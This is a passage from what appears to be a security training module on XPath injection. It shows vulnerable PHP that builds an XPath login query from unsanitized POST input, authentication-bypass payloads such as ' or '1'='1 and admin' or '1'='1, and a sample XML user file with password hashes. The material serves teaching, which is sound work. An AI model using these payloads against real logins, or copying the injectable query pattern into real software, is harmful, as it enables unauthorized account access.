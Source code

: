 To perform authentication, the web application might execute an XPath query like the following:

```xpath
/users/user[username/text()='htb-stdnt' and password/text()='Academy_student!']

```

Vulnerable PHP code inserts the username and password without prior sanitization into the query:

```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . $_POST['password'] . "']";
$results = $xml->xpath($query);

```

We aim to bypass authentication by injecting a username and password such that the XPath query always evaluates to `true`. We can achieve this by injecting the value `' or '1'='1` as username and password. The resulting XPath query looks like this:

```xpath
/users/user[username/text()='' or '1'='1' and password/text()='' or '1'='1']

```

Since the predicate evaluates to `true`, the query returns all `user` element nodes from the XML document. Therefore, we are logged in as the first user. In our example document, this is the user `kgrenvile`. However, what if we want to log in as the `admin` user to obtain the highest permissions? In that case, we have to inject a username of `admin' or '1'='1` and an arbitrary value for the password. That way, the resulting XPath query looks like this:

```xpath
/users/user[username/text()='admin' or '1'='1' and password/text()='abc']

```

Due to the `or` clause, the above query will log us in as the `admin` user without providing the correct password.

* * *

## Exploitation

In real-world scenarios, passwords are often hashed. Additionally, we might not know a valid username, therefore, we cannot use the abovementioned payloads. Fortunately, we can use more advanced injection payloads to bypass authentication in such cases. Consider the following example:

```xml
<users>
	<user>
		<name first="Kaylie" last="Grenvile"/>
		<id>1</id>
		<username>kgrenvile</username>
		<password>8a24367a1f46c141048752f2d5bbd14b</password>
	</user>
	<user>
		<name first="Admin" last="Admin"/>
		<id>2</id>
		<username>obfuscatedadminuser</username>
		<password>21232f297a57a5a743894a0e4a801fc3</password>
	</user>
	<user>
		<name first="Academy" last="Student"/>
		<id>3</id>
		<username>htb-stdnt</username>
		<password>295362c2618a05ba3899904a6a3f5bc0</password>
	</user>
</users>

```